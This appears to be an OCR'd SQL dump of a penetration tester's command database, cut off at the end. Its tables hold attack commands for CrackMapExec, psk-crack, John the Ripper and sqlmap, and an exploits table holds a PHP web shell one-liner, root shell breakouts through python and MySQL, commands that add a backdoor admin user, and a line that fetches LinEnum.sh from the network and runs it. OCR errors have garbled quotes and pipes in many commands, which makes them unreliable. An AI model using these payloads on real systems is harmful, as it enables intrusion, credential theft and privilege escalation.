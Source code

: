 NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (34, %CrackMapExec%, %Command execution%, %crackmapexec smb <target(s)> -u %%<username>%% -p %%<password>%% -x whoami%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (35, %CrackMapExec%, %check logged in users%, %crackmapexec smb <target(s)> -u %%<username>%% -p %%<password>%% --lusers%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (36, %CrackMapExec%, %dump local SAM hashes%, %crackmapexec <target(s)> -u %%<uesrname>%% -p %%<password>%% --local-auth --sam%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (37, %CrackMapExec%, %null session login%, %crackmapexec smb <target(s)> -u %%%% -p %%%%%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (38, %CrackMapExec%, %list modules%, NULL, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (39, %CrackMapExec%, %pass the hash%, NULL, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (41, %IKE-Scan%, %attack pre shared key with dictionary%, %psk-crack -d </path/to/dictionary> <psk file>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (42, %IKE-Scan%, %If you find a SonicWALL VPN using agressive mode it will require a group id, the default group id is GroupVPN%, %ike-scan <IP> -A -id GroupVPN%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (43, %IKE-Scan%, %to find aggressive mode VPNs and save for use with psk-crack%, %ike-scan <IP> -A -P<file out>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (44, %John the Ripper%, %crack passwords with korelogic rules%, %for ruleset in `grep KoreLogicRules john.conf , cut -d: -f 2 , cut -d\] -f 1`; do ./john --rules:${ruleset} -w:<wordlist> <password_file> ; done%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (45, %Nmap%, %create a list of ip addresses %, %nmap -sL -n 192.168.1.1-100,102-254 , grep %report for% , cut -d % % -f 5 > ip_list_192.168.1.txt%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (46, %Linux commands%, %mount NFS share on linux%, %mount -t nfs server:/share /mnt/point%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (47, %PowerShell%, %create new user%, %net user <username> <password> /ADD%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (48, %PowerShell%, %add user to a group (normaly Administrators)%, %net localgroup <group> <username> /ADD%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (49, %PSK-Crack%, %brute force with specified length and specified chars (if left blank default is 36)%, %psk-crack -b <#> --charset=%<charlist>% <key file>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (50, %PSK-Crack%, %dictianary attack%, %psk-crack -d <file> <key file>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (51, %SQLMap%, %check form for SQL injection%, %sqlmap -o -u %<url of form>% --forms%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (52, %SQLMap%, %Scan url for union + error based injection with mysql backend and use a random user agent + database dump%, %sqlmap -u %<form URL>?id=1>%  --dbms=mysql --tech=U --random-agent --dump %, NULL);  -- Table: Exploits CREATE TABLE Exploits (Target TEXT, Type TEXT, Criteria TEXT, Method TEXT, Code TEXT, Result TEXT, Notes TEXT); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES (%Website%, %Injection%, %ability to write to website folder%, %create or edit a mage of the website and insert the code to get remote access to the machine%, %<? php system ($ _ GET [%%cmd%%]); ?>%, %execute code via url%, %<URL of php>?cmd=<code to execue>%); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES (%Linux%, %Priv Enum%, %shell%, %enter code into the shell to find vulnerbilities int he machine%, %find / -perm -u=s -type f 2>/dev/null%, %SUID binaries%, %link output to GTFO bins and exploit%); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES (%Box%, %Priv Esc%, %Python binary running as root%, %generate a shell using python to grain root access%, %python3 -c %import pty;pty.spawn(%%/bin/sh%%);%%, %root shell%, %change pyton varibale acordingly%); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES (%SQL%, %Priv Esc%, %MySQL binary running as root%, %enter into MySQL command line and break out into root y using the code%, %mysql> \! /bin/sh%, %get shell from root priv SQL%, NULL); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES (%Linux%, %Priv Enum%, %low privilage shell%, %use the code to search for programs that run as sudo without password%, %sudo -l%, NULL, %list programs that can be used with sudo and no password%); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES (%Windows%, %Priv Esc%, %Powershell%, %use code to enumerate priv esc opertunities%, %wmic service get name,displayname,pathname,startmode ,findstr /i %auto% ,findstr /i /v %c:\windows\\% ,findstr /i /v %%%%, %list of unquoted service paths that might be used for priv esc%, NULL); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES (%Website%, %LFI%, NULL, NULL, NULL, NULL, NULL); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES (%Linux%, %Priv Enum%, NULL, %use Linenum.sh to enumerate linux box%, %wget https://www.linenum.sh/ -P /dev/shm/Linenum.sh; chmod +x /dev/shm/linenum.sh ; ./dev/shm/Linenum.sh , tee
